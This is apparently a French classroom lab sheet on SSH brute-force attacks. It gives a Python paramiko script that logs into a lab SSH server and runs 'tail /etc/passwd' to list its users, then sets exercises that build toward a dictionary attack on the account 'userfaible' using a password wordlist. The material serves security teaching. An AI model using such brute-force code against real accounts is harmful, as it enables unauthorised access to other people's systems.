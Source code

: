 v 0.4

---

# Signets

#B3

---

# Mise en place

- Un serveur SSH
- Le serveur SSH doit disposer d'un utilisateur **dont le nom est connu**

---

# Pré requis

- Notion de l’attaque Force brute [ 0 - Brute Force - Généralités](:/5628a6fb819c44d4987e4d33b04ef0e4)
- Dictionnaire
- SSH

---

# Activité 1 - Exécuter le code

Exécuter le code python suivant sur la machine qui va tenter la connexion SSH sur une autre machine.

```python
import paramiko
# https://www.paramiko.org/

# Infos
host="172.16.XX.254"
username="user1"
password="user1"
port=2222

pirate=False

try:
	# Connexion
	client = paramiko.client.SSHClient()
	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
	client.connect(host, username=username, password=password, port=port)
	pirate=True

except:
	pirate=False
	client.close()

if pirate:
	command = "tail /etc/passwd" # On peut voir la liste des utilisateurs sur la machine
	_stdin, _stdout, _stderr = client.exec_command(command)
	print ("Sortie")
	print( _stdout.read().decode() )

client.close()
```

(les 3 valeurs pour **host**, **username**, **password** seront fournies).

---

# Activité 2 - Modifier le code

Il y a l’utilisateur **userfaible** sur la machine **172.16.XX.XX**.

Proposer une solution pour que l’*utilisateur/pirate* saisisse la valeur **password** pour tenter de pirater le compte **userfaible**.

Le programme doit dire si le mot de passe est correct ou incorrect.

---

# Activité 3 - Lire un fichier externe

-	Créer le fichier texte **file.txt** dont le contenu est:
```txt
Bonjour
Hello
Azerty
password
```

- Exécuter le code Python suivant:
```python
# Ouvrir le fichier en lecture seule
file = open("file.txt", "r")

# Utiliser readlines pour lire les lignes du fichier
# La variable "lignes" est une liste contenant toutes les lignes du fichier
lines = file.readlines()

# Fermer le fichier après avoir lu les lignes
file.close()

# Itérer sur les lignes
for line in lines:
    print (line.strip())    # Juste pour le test # Stip pour enlever le saut de ligne
```
 
> Que fait ce code ?

---

# Activité 4 - Rassembler les fonctionnalités

> Préparer un fichier texte avec des mots de passe populaires.

> Faire un programme Python afin de faire une attaque sur le mot de passe de l’utilisateur *userfaible*, en utilisant ce fichier.